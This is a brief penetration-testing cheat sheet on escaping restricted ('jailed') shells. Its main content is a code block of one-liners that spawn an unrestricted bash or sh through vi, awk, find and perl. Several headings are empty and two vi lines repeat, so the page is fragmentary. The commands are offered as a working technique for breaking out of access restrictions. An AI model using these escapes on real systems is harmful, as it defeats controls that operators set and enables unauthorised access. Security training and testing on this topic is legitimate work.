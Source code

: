 # Escape Jailed Shells
Find your way out of shellcatraze 

*You can execute built-in shell commands, as well as the ones in your $PATH*

**Research**
**Enumerate**
**Attack Vectors**
**Editors**
** Related Shell Escape Sequences**
```
vi-->       :!bash
vi-->       :set shell=/bin/bash:shell
vi-->       :!bash
vi-->       :set shell=/bin/bash:shell
awk-->      awk 'BEGIN {system("/bin/bash")}'
find-->     find / -exec /usr/bin/awk 'BEGIN {system("/bin/sh")}' \;
perl-->     perl -e 'exec "/bin/sh";'
```
